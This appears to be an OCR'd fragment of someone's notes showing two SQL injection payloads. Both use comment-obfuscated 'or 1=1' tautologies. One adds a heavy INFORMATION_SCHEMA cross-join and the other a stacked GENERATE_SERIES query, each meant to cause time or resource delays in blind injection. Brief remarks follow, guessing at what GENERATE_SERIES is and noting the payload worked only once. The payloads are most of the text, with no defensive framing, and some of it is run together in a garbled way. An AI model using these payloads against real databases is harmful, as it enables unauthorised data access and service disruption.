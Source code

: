 ```
---OUTPUT---
"/**/or/**/1=1--/**/-")OR4321=(SELECTCOUNT(*)FROMINFORMATION_SCHEMA.COLUMNSA,INFORMATION_SCHEMA.COLUMNSB,INFORMATION_SCHEMA.COLUMNSCWHERE0XOR1)AND("VTPz"="VTPz
--------
"/**/or/**/1=1--/**/-);SELECT/**/COUNT(*)/**/FROM/**/GENERATE_SERIES(1,5000000)--
```
	- GENERATE_SERIES maybe a database?
	- INFORMATION_SCHEMA
	- **This happened just once, not working now**